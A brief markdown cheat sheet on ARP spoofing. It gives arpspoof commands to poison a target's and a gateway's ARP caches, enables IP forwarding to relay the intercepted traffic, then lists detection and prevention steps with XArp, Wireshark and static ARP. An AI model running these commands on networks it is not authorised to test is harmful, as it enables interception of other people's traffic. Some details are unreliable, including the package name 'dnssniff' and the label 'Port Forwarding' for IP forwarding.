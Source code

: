 ```yaml
---
title: ARP Spoofing - Poisoning
---
```


````bash
sudo apt install dnssniff
arpspoof -i <interface> -t <target-ip> <router-ip>
arpspoof -i <interface> -t <gateway-ip> <target-ip>
````

The target device will not have access to the internet after running the above commands as our device is not an router and does not forward packets.  
Port Forwarding can be enabled using following command: `echo 1 > /proc/sys/net/ipv4/ip_forward`

---

### Prevention

1. <u>ARP Poisoning</u>  
Manually check the ARP table for duplicate MAC Addresses  
Xarp : Application used to automatically detect ARP poisoning

2. <u>Detect ARP Storm/ Poisoning</u>  
Wireshark - Protocol - ARP - Detect ARP Request Storm  
Analyze - Expert Information  
Alternate approach is to define Static ARP